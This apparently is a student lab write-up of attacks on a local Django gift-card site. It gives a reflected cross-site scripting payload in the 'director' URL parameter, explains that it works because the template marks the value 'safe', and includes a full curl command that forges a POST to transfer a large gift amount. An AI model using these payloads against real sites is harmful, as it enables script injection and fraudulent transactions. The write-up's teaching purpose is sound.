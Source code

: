 Cross site scripting vulnerability: 

I crafted this http get request: http://127.0.0.1:8000/buy.html?director=<script>alert('xxs')</script>attacked%21 which allows me to print the malicious message on the screne 'Endorssed by Attacked!!'.
This vulerability exsists in the urls that access the buy_cards_view. In this view, when a GET request is submitted with the 'director' variable set the item_single.html template is rendered. In this template, if the director value is not none it prints 'Endorsed by' the value of the director variable which can be set by user data submitted in the  http request. Normally, django would filter out such user generated input but this variable value is marked as 'safe' which allows user generated input to print to the site and the attack to succeed.

Attack 2:
curl -i -s -k -X $'POST'     -H $'Host: 127.0.0.1:8000' -H $'Content-Length: 29' -H $'Cache-Control: max-age=0' -H $'sec-ch-ua: \"Chromium\";v=\"95\", \";Not A Brand\";v=\"99\"' -H $'sec-ch-ua-mobile: ?0' -H $'sec-ch-ua-platform: \"Windows\"' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Referer: http://127.0.0.1:8000/gift.html' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close'     --data-binary $'amount=2422333&username=user1'     $'http://127.0.0.1:8000/gift/0' 

Attack 3:


http://127.0.0.1:8000/buy.html?director=<script>alert('xxs')</script>attacked%21
